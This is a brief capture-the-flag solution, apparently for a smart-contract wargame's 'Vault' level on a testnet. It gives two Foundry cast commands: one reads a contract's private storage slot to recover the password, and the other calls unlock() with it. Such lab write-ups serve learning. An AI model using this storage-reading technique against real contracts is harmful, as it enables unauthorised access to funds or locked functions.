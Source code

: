 # Vault Solution

1) Retrieve the `password`:

```
cast storage `ìnstanceAddress` 0x1 --rpc-url $SEPOLIA_RPC_URL
```

2) Call `unlock()`:

```
cast send `ìnstanceAddress` "unlock(bytes32)" `password` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
